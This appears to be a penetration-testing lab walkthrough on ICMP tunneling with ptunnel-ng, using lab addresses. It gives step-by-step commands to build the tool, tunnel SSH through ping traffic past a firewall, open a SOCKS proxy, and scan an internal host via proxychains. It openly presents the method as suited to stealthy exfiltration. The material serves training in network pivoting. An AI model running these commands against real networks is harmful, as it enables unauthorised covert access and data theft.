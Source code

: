 ### Overview

ICMP tunneling encapsulates traffic within ICMP echo request and response packets. It is only effective when ping responses are permitted through a firewall. If allowed, internal hosts can use ping traffic to tunnel data to external servers, which can validate and respond accordingly. This technique is useful for stealthy data exfiltration or establishing pivot tunnels.

In this scenario, we’ll use **ptunnel-ng** to create an ICMP tunnel between a **Pivot Host** (Ubuntu server) and the **Attack Host**.

---

### Scenario

- **Pivot Host (Ubuntu)**: `10.129.202.64`, `172.16.5.129`
- **Attack Host**: `10.10.14.18`

The Ubuntu server sits in the internal network and is accessible by ICMP. We will create an SSH connection through ICMP between the attack host and pivot host.

---

## Step-by-Step Instructions

### Step 1: Clone ptunnel-ng (Attack Host)

```Shell
git clone https://github.com/utoni/ptunnel-ng.git
```

### Step 2: Build ptunnel-ng (Attack Host)

```Shell
cd ptunnel-ng
sudo ./autogen.sh
```

### Alternative Build (Static Binary)

```Shell
sudo apt install automake autoconf -y
sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\\/configure" --enable-static $@ \\&\\& make clean \\&\\& make -j${BUILDJOBS:-4} all/' autogen.sh
./autogen.sh
```

### Step 3: Transfer ptunnel-ng to Pivot Host (Attack Host)

```Shell
scp -r ptunnel-ng ubuntu@10.129.202.64:~/
```

---

## Establishing the Tunnel

### Step 4: Start ptunnel-ng Server (Pivot Host)

```Shell
cd ~/ptunnel-ng/src
sudo ./ptunnel-ng -r10.129.202.64 -R22
```

- Forwards ICMP packets to TCP port `22` (SSH).

### Step 5: Start ptunnel-ng Client (Attack Host)

```Shell
sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22
```

- Opens local port `2222` for tunneling SSH through ICMP to pivot host.

### Step 6: Connect via SSH over ICMP (Attack Host)

```Shell
ssh -p2222 -lubuntu 127.0.0.1
```

- Connects to the pivot host over the ICMP tunnel.

---

## Optional: Proxying Over the Tunnel

### Step 7: Start Dynamic Port Forwarding Over SSH (Attack Host)

```Shell
ssh -D 9050 -p2222 -lubuntu 127.0.0.1
```

- Opens SOCKS proxy on port `9050`.

### Step 8: Update proxychains.conf (Attack Host)

```Plain
[ProxyList]
socks5 127.0.0.1 9050
```

### Step 9: Scan Internal Host via Proxy (Attack Host)

```Shell
proxychains nmap -sV -sT 172.16.5.19 -p3389
```

---

## Confirming Traffic Behavior

Use Wireshark to verify the tunneling behavior:

- Run `ssh ubuntu@10.129.202.64` — you’ll see typical TCP/SSHv2 traffic.
- Run `ssh -p2222 -lubuntu 127.0.0.1` — traffic will be ICMP-based.

Monitoring ptunnel-ng output provides real-time session statistics:

```Plain
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Session statistics:
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R: 248/22/0 Loss: 0.0%
```

---
